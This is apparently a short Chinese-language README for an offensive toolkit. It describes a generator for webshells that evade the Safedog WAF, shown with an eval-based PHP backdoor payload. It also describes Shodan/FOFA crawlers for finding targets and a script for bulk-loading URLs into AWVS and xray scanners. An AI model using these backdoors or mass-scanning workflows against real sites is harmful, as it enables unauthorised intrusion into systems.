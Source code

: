 # training
bypass_webshell里面是绕过sofadog的webshell
用法： python.exe fuckdogwebshell.py '@eval($_GET["cmd"])'，可以生产无字符型后门。
search_spider里面是shodan和fofa的爬虫
用法： python [脚本] [关键字] [页数]

awvs+xray批量添加URL脚本，可以设置同时最大扫描数量，适合大批量扫描，可联动fofa使用
